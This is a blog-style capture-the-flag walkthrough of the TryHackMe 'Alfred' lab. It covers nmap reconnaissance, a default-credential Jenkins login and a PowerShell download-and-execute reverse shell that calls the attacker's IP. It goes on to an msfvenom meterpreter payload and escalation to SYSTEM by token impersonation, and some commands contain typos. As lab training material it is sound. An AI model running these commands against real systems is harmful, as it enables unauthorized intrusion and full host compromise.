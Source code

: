 ```yaml
---
title: THM Room Walkthrough - Alfred
date: '2025-01-22 21:35:00 +0000'
author: b3rdma
categories:
  - Hacking
  - Try Hack Me
tags:
  - nmap
  - enumeration
  - privilege escalation
  - reverse shell
  - metasploit
media_subpath: /img/alfred/
---
```

## Contents
### Table of contents

<!-- toc -->

- [Task 1 - Initial Access](#task-1---initial-access)
- [Initial Recon - NMAP Scan Results](#initial-recon---nmap-scan-results)
- [Enumeration](#enumeration)
- [Task 2 - Switching Shells](#task-2---switching-shells)
- [Task 3 - Privilege Escalation](#task-3---privilege-escalation)

<!-- tocstop -->

## Task 1 - Initial Access

First things first, lets do a full nmap scan to see what is open on the target.
I used the following command to scan the target:

```bash
sudo nmap -sV -sC -p- -Pn -T4 10.10.131.95
```
{: .nolineno }

## Initial Recon - NMAP Scan Results

```bash

┌──(zed   kali)-[~/hacking/thm/rooms/alfred]
└─|||> sudo nmap -sV -sC -p- -Pn -T4 10.10.131.95
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-19 12:54 GMT
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.131.95, 16) => Protocol wrong type for socket
Offending packet: TCP 10.11.121.104:56714 > 10.10.131.95:53 S ttl=46 id=1811 iplen=11264  seq=3598359036 win=1024 <mss 1460>
Nmap scan report for 10.10.131.95
Host is up (0.038s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ms-wbt-server Microsoft Terminal Service
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2025-01-18T12:49:06
|_Not valid after:  2025-07-20T12:49:06
|_ssl-date: 2025-01-19T13:41:17+00:00; -16s from scanner time.
8080/tcp open  http          Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -16s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2824.03 seconds

```
{: .nolineno }

## Enumeration

- First went to 10.10.255.69:8080 and was presented with the Jenkins login page
- Tried default `admin:admin` for username and password and that logged me in to
  back-end (default credentials for Jenkins found via search)
- In the project config page we see execution of batch commands is enabled
- Change the `whoami` default command with:

```powershell
powershell iex (New-Object
Net.WebClient).DownloadString('http://10.11.121.104:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp
-Reverse -IPAddress 10.11.121.104 -Port 4444
```
{: .nolineno }

- Save the project and then build it so it runs the payload
- Make sure to have the following two commands running on attack machine:

```bash
python3 - http.server
```
{: .nolineno }

```bash
nc -nvlp 4444
```
{: .nolineno }

- Had issues with getting the `nc` command to work on MacOS so booted up Kali
- Worked great once build of the project started on Kali; reverse shell sorted. 
- Had to search about a bit to find the flag at `C:\Users\bruce\Desktop\user.txt`
- Flag is: `79007a09481963edf2e1321abd9ae2a0`

## Task 2 - Switching Shells

The instructions on this part of the room are quite self-explanatory; however,
the steps I took are as follows:

- Use the `msfvenom` command to generate a payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata -e x86/shikata_ga_nai LHOST=10.11.121.104 LPORT=4443 -f exe -o revShell.exe
```
{: .nolineno }

- Once that is done, uploading to the target machine is the next step. In the
shell we already have, run the command 
`powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.11.121.104/revShell.exe','revShell.exe')"`
- This is now ready to use on the target, but first we need to set up Metasploit
  to listen in to it as we are using a meterpreter.
- There is a one-liner on the THM Room page that can be used but I opened
Metasploit the old way and set the required parameters; the commands listed
below in order of execution:

```bash
msfconsole
use exploit/multi/handler
set LOST 10.11.121.104
set LPORT 4443
set PAYLOAD windows/meterpreter/reverse_tcp
run
```
{: .nolineno }

- Once the meterpreter handler connects, use the command `shell` to now have the
  Windows Cmd shell prompt. 
- To answer the question in Task 2, simply run `dir` and look at the file size
(in bytes) of revShell.exe.

## Task 3 - Privilege Escalation

The Task 3 questions are pretty guided by the instructions so here I shall just
add a few screenshots of the results:

![whoami/priv command on kali
linux](20250124-alfred-whoami-priv.webp){: width="700"
height="400" }
_Execution of the `whoami/priv` command_

The next step instructs us to enter `load incognito` and follow that up with
`list_tokens -g`. See screenshot below for results:

![load incognito Meterpreter command on kali
linux](20250124-alfred-load-incognito.webp){: width="700"
height="400" }
_Execution of the `load incognito` Meterpreter command_

The observant will note that I have also run the commands `getuid` and
`impersonate_token "BUILTIN\Administrators"`; The output shows that initially we
were `alfred\bruce`. Not in the screenshot (sorry) is the output from running
the `getuid` command afterwards which will be `NT AUTHORITY\SYSTEM`.

Final steps are to get the process ID of services.exe, migrate to that process
and gain root privileges. Output of the `ps` command below:

![ps command on kali
linux](20250124-alfred-ps-command.webp){: width="700"
height="400" }
_Execution of the `ps` command_

Now we have found the PID we want, run the command `migrate <PID>`, in my case
it was `migrate 668`, and wait for the success message. Root is ours. Final
question answered by `cat`'ing the root.txt file. Location is given which is
nice 🙂. 

![cat and type command on kali
linux](20250124-alfred-final-flag.webp){: width="700"
height="400" }
_Execution of the `cat` command_

> The output from `cat` looked kind of strange to me so I entered shell and used
> `type root.txt` to confirm that the flag was correct. All shown in the
> screenshot but wanted to clarify just in case.
{: .prompt-info }

So that is Alfred completed. I hope this was helpful, informative and possibly
even interesting. Feedback is always welcome but please do view this in the
context that these are basically my learning notes. Definitely let me know if
there are errors, especially in relation to techniques/tools used. 

Thank you and Godspeed.





